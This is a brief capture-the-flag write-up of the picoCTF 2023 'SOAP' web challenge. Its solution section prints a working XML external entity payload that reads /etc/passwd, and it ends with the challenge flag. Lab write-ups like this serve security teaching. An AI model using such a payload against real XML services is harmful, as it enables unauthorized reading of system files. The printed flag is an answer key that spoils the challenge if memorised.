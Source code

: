 # SOAP
- [Challenge information](#challenge-information)
- [Overview](#overview)
- [Solution](#solution)
- [Flag](#flag)
## Challenge information
```text
Tags: Web Explotation, picoCTF 2023, XXE

Description: 
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?

Hints: 
1. XML external entity Injection
```
## Overview
![alt text](/picoCTF/Static/Images/SOAP/image1.png)  
## Solution
**Step 1:**  Exploit  
![alt text](/picoCTF/Static/Images/SOAP/image2.png)  
* Request uses xml as the payload to send the post  
=> Xml injection vulnerability exists  
* We will use:  
```xml
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE foo [

  <!ENTITY xxe SYSTEM "file:///etc/passwd"> 

]>

<data><ID>&xxe;</ID></data>
```
## Flag
`picoCTF{XML_3xtern@l_3nt1t1ty_55662c16}`
